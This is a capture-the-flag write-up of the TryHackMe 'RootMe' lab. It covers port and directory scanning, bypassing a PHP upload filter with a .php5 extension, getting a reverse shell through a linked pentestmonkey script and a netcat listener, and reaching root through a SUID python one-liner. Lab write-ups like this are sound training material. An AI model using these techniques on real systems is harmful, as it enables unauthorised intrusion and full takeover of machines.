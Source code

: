 ![RootMe Cover Image](RootMe.png)
# RootMe Writeup

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 16:53 GMT
Nmap scan report for 10.10.69.147
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I see that there is a website hosted on port 80. Browsing to the website, it seems to just be a simple page saying **Can you root me?**.

## Gobuster Scan
```
/index.php
/uploads
/css
/js
/panel
```
**/uploads** and **/panel** look interesting.
- **/uploads** is an empty directory
- **/panel** has a file upload form

I'm guessing that files that get uploaded can be accessed in the **/uploads** directory. I try to upload a simple text file to see if this is true, and it is.

## Foothold
Now I know that files that are uploaded can be accessed directly from te **/uploads** directory, and I know that the webserver is running on PHP (as the index page is named **index.php**), I will try upload a **.php** file to get code execution.

My first attempt at uploading a PHP file was blocked as files with a **.php** file extensions are not allowed. So I open up BurpSuite Intruder to test different file extensions to see which one works. I find that **.php5** works. Now I know that I can upload a **.php5** file, it's time to upload a PHP reverse shell.

I like to use the PHP reverse shell made by `pentestmonkey` on GitHub. You can find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

(Just make sure to change the IP and Port in the reverse shell, to your listener IP and Port, before saving it as a **.php5** file)

I then started a listener `nc -nvlp <port>`

It's time to upload the reverse shell and then activate it by browsing to the file in **/uploads**.

Now I have a shell on the machine and stabilize it using `python3 -c 'import pty;pty.spawn("/bin/bash")'` and I can see that I have a shell as `www-data`.

I find the user flag in `/var/www`. Now I have the user flag, it's time to become root!

## Privilege Escalation (root)
Running the command `find / -perm -4000 2>/dev/null`, to find SUID binaries I have access to, returns a long list of them. But one of them stands out above the rest `/usr/bin/python`. Python is not usually a SUID binary you would see on Linux machines. I can abuse this using a technique that can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

The command: `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Success! I run the command and it spawns a root shell!

I change directory to **/root** and find the root flag to complete the CTF.

TryHackMe RootMe: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)
